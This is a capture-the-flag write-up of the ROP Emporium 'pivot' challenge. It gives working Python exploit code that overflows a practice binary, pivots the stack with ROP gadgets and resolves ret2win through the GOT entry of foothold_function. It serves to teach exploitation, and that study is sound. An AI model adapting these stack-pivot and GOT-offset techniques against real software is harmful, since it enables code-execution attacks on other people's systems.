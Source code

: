 # pivot - 64 bit
as the name implies, we will need to pivot our stack to a different location.  
    
running the binary we get:    
![inital](https://user-images.githubusercontent.com/60041914/78302149-e9431380-7542-11ea-9fc0-aa2dde2ebd07.png)
    
reading the instructions at https://ropemporium.com/index.html we get a clearer image:     
     
"To stack pivot just means to move the stack pointer elsewhere. It's a useful ROP technique and applies in cases where your initial chain is limited in size (as it is here)"    
...      
"In this challenge you'll also need to apply what you've previously learned about the .plt and .got.plt sections of ELF binaries. If you haven't already read appendix A in the beginner's guide, this would be a good time. This challenge imports a function called foothold_function() from a library that also contains a nice ret2win function."    
...    
"You'll need to find the .got.plt entry of foothold_function() and add the offset of ret2win() to it to resolve its actual address."    
    
cool. now it's clear: the address given to us is where our stack should end up.     
we first control the 2nd stage (after pivot,call ret2win)     
and then we get to do the stack smashing(pivot to given location)   
    
 ## first stage
 the first stage we can do preety easily.    
 first, get the address from the binary using some regular expressions.    
 ```python
r=process("./pivot")
output=r.recvuntil(b"Send your")
pivot_addr=re.findall('pivot.{16}',output.decode())[1][7:] # ugly re code
pivot_addr=int(pivot_addr,16)
 ```
 then smash the return pointer and use these gadgets:     
 ```
 0x0000000000400b00 : pop rax ; ret
 0x0000000000400b02 : xchg rax, rsp ; ret
 ```
 to pivot.(setting rax to address and doing an xchg rax, rsp)     
      
 translates to this python code:     
 ```python
SET_RAX=0x00400b00
PIVOT=0x00400b02
stage1=b'A'*40
stage1+=p64(SET_RAX) # set rax to the desired pivot addr(from the binary output)
stage1+=p64(pivot_addr)
stage1+=p64(PIVOT) # xchg rax,rsp
 ```
 ## second stage
 the second stage requires a bit more thinking.    
      
 from the way dynamic binding works we know that the first call to a function populates the GOT.    
 so before calculating our offset we need to call footholdfunction() from the PLT.  
       
 after doing this, we can grab its address from the GOT. 
       
 then, we should add the offset from it to our ret2win function.   
 all in all, it would require these gadgets:     
 ```
0x0000000000400900 : pop rbp ; ret
0x0000000000400b09 : add rax, rbp ; ret
0x000000000040098e : call rax
0x0000000000400b00 : pop rax ; ret
 ```
 using objdump we can calculate the offset:     
 ![offsets](https://user-images.githubusercontent.com/60041914/78302543-a9c8f700-7543-11ea-98e7-b6505c17b866.png)
      
 and turn it into this python code:   
 ```python
CALL_RAX=0x0040098e
SET_RAX=0x00400b00
SET_RBP=0x00400900
ADD_RAX_RBP=0x00400b09
READ_AT_RAX=0x00400b05
GOT_FOOTHOLD=0x00602048
PLT_FOOTHOLD=0x00400850

stage2=p64(PLT_FOOTHOLD) # call foothold function to populate the GOT
stage2+=p64(SET_RAX)
stage2+=p64(GOT_FOOTHOLD)
stage2+=p64(READ_AT_RAX)#get addr of foothold function to rax
stage2+=p64(SET_RBP)
stage2+=p64(0x14e) # add ret2win offset
stage2+=p64(ADD_RAX_RBP)
stage2+=p64(CALL_RAX) # call ret2win
 ```
 running the script...     
 ![done](https://user-images.githubusercontent.com/60041914/78302547-ab92ba80-7543-11ea-9f6d-f234c7587246.png)
      
nice! it works!     
